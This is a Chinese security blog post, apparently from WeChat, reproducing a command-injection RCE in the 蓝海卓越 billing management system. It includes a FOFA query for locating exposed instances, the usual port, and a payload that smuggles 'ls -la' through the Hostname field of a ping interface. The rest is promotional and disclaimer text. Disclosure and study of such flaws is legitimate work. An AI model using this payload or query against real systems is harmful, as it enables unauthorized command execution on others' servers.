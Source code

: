 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Q2ltToW0qOyU1YVkeXWgyw)

**1、描述**

  

蓝海卓越计费管理系统公网已经爆出两个漏洞，任意文件读取和远程命令执行，本次为后台 RCE 漏洞。

  

  

  

  

  

**2、影响范围**

  

蓝海卓越计费管理系统

  

  

  

  

  

**3、FOFA**

  

app="蓝海卓越计费管理系统"

  

  

  

  

  

![](https://mmbiz.qpic.cn/sz_mmbiz_gif/vLkXic8TjvxFkZWhz8hicaaDGkF9d7WiaYaOR6oLKHSJ709cLb17NsVDPnLI22YbRibaic33YMUZ5goMxia9UEaw7hRg/640?wx_fmt=gif)

漏洞复现

漏洞存在点很简单，就是没有对输入的过滤  

![](https://mmbiz.qpic.cn/mmbiz_jpg/nMQkaGYuOibDxhica5PCFc53hQ1NxSibkCvticDYCtBFYa1YkU6QvdphRVMXyibDEyEYoCWe6aS9tkZXP4D22mYY0kw/640?wx_fmt=jpeg)

执行拼接代码执行，这里有个点需要注意以下，就是接口不能存在，才能进行拼接，当接口不存在的时候，接口调用为空，则后面可以进行拼接

![](https://mmbiz.qpic.cn/mmbiz_jpg/nMQkaGYuOibDxhica5PCFc53hQ1NxSibkCvUhmjhsOdtTomSyj32scdp467lSQ67CYxDRCtichpdDc2eciahynPQpYA/640?wx_fmt=jpeg)

无任何其他的过滤操作![](https://mmbiz.qpic.cn/mmbiz_jpg/nMQkaGYuOibDxhica5PCFc53hQ1NxSibkCvejE2BygosicYyRXgsGRsobH31HuDltFKchDYiarPX691pupaJPAwd1Zw/640?wx_fmt=jpeg)

端口一般开在 6070

```
Hostname=114.114.114.114|ls -la&physicalInterface=1&pingCount=1
```

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDxhica5PCFc53hQ1NxSibkCvo3UAgEfx6saXCvicoicEH8maKiabesOzngKQiaptyYckKt6YryQauzCGbA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDxhica5PCFc53hQ1NxSibkCvkHItOVFudcYH6cP5xj9ealddJrYxtAh70TH8dswqpmEiauHBazb9Y6g/640?wx_fmt=png)

           ![](https://mmbiz.qpic.cn/mmbiz/yqVAqoZvDibF4Yt2FQ7OXEVdYnmw5luVibtn7s5Xgo37kJ8QS8Yv3TocRISibmUrXAGf0s3gTia1reAGvbW3x6O0kw/640?wx_fmt=gif)          

漏洞文库：wiki.xypbk.com

免费授权已发放完毕，以后不定期发放授权。  
如有特殊需要请留言，或提交一篇自挖或公网未流出漏洞，即可获取授权  
如需投稿请后台回复 "投稿" 获取微信，添加微信后直接发送漏洞文章即可。

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDxhica5PCFc53hQ1NxSibkCvA2Ntxt26WvGNlCsCXRvk9Kt0yCcWcdvky3rWb15jtJ2kew624gWW1A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDxhica5PCFc53hQ1NxSibkCv2txz7VW0vB277NOaHD18qM5f4lSW5MoHSIdNmnhwFzh9Vq3JlibIB1g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDxhica5PCFc53hQ1NxSibkCvuRz1qDSFibSggh7Mj4vdgXXzAKC78oSbexuTjCBGUHLpQPF7UPCZANQ/640?wx_fmt=png)

    本站开设的起因是因为某一次 HW，查漏洞真的太麻烦了，就想起来做了一个站点，本意就是自己用来快速检索漏洞详情的，为了方便大家就公开了，但是这样就又会被不法份子利用，和影响一些大佬的权益。  

    为防止黑产份子的非法利用漏洞，不给国家安全添麻烦，本站从此开启授权访问。

    如若因漏洞利用产生重大影响，会根据登录 IP、请求内容、申请授权等信息进行查证，查证后将对号主进行追责，故不要分享账号，终害己身。  

    虽然比较麻烦了些，但会稍微对黑产份子有一些限制，保证了本站安全，也保证国家安全。同时有些敏感东西也能第一时间放出来了，还请大家谅解。

    同时本站承诺永远不会出现买卖账号等利益相关的事情，本站永不割韭菜，永久免费检索，坚决抵制安全圈的歪风邪气。

    最后，若大家对此有意见请后台留言，本站将及时改正，若内容有侵犯您的权益，请及时提出，进行删除处理。  

    本站能坚持多久全看大家是否滥用，内容若更新较慢也请谅解，本人有工作有生活，会尽量坚持更新的。

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/nMQkaGYuOibDavXvuud5F09Tjl7NMvU8Yzhia63knJ4QJFvO4WBfd6KQazjtuPC7uqNBt5gE06ia7GjOVn2RFOicNA/640?wx_fmt=jpeg)

扫取二维码获取

更多精彩

![](https://mmbiz.qpic.cn/mmbiz_png/TlgiajQKAFPtOYY6tXbF7PrWicaKzENbNF71FLc4vO5nrH2oxBYwErfAHKg2fD520niaCfYbRnPU6teczcpiaH5DKA/640?wx_fmt=png)

Qingy 之安全  

![](https://mmbiz.qpic.cn/mmbiz_png/Y8TRQVNlpCW6icC4vu5Pl5JWXPyWdYvGAyfVstVJJvibaT4gWn3Mc0yqMQtWpmzrxibqciazAr5Yuibwib5wILBINfuQ/640?wx_fmt=png)

                                   ![](https://mmbiz.qpic.cn/mmbiz_gif/nMQkaGYuOibDxhica5PCFc53hQ1NxSibkCvwcmL5Lb7OCb4UibtoT1ATGNwpSlJjCQM2dKHqeW9XpalKgocYvNIeibw/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/3pKe8enqDsSibzOy1GzZBhppv9xkibfYXeOiaiaA8qRV6QNITSsAebXibwSVQnwRib6a2T4M8Xfn3MTwTv1PNnsWKoaw/640?wx_fmt=png)

点个在看你最好看